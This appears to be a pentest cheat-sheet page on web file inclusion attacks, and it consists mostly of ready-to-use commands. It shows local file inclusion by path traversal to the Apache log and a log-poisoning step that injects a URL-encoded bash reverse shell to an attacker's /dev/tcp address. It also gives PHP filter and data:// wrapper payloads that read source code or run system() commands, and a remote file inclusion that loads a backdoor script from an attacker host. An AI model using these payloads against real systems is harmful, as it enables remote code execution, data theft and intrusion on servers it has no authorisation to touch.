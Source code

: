 ```yaml
---
title: File Inclusion
description: External insertion of files, potentially executing malicious code or accessing sensitive data.
tags:
  - Exploitation
  - Web
---
```


### RCE with LFI via Log poisoning

```bash
# 1. Find apache log file.
curl http://example.com?page=../../../../../../../../../var/log/apache2/access.log

# 2. Insert our payload inside it.
curl http://example.com?page=../../../../../../../../../var/log/apache2/access.log?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$ip%2F$port%200%3E%261%22

# 3. Display the poisoned log file.
curl http://example.com?page=../../../../../../../../../var/log/apache2/access.log
```

---

### Use PHP Wrappers in LFI

```bash Retrieve source code via php wrappers.
http://example.com?page=php://filter/convert.base64-encode/resource=index.php

# Decode base64
echo $base64 | base64 -d
```

---

```Use php wrappers to execute command.
http://example.com?page=data://text/plain,<?php%20echo%20system('payload');?>
http://example.com?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=payload"
``` 

---

### RFI

```powershell
http://example.com?page=http://$ip:$port/simple-backdoor.php&cmd=payload"
``` 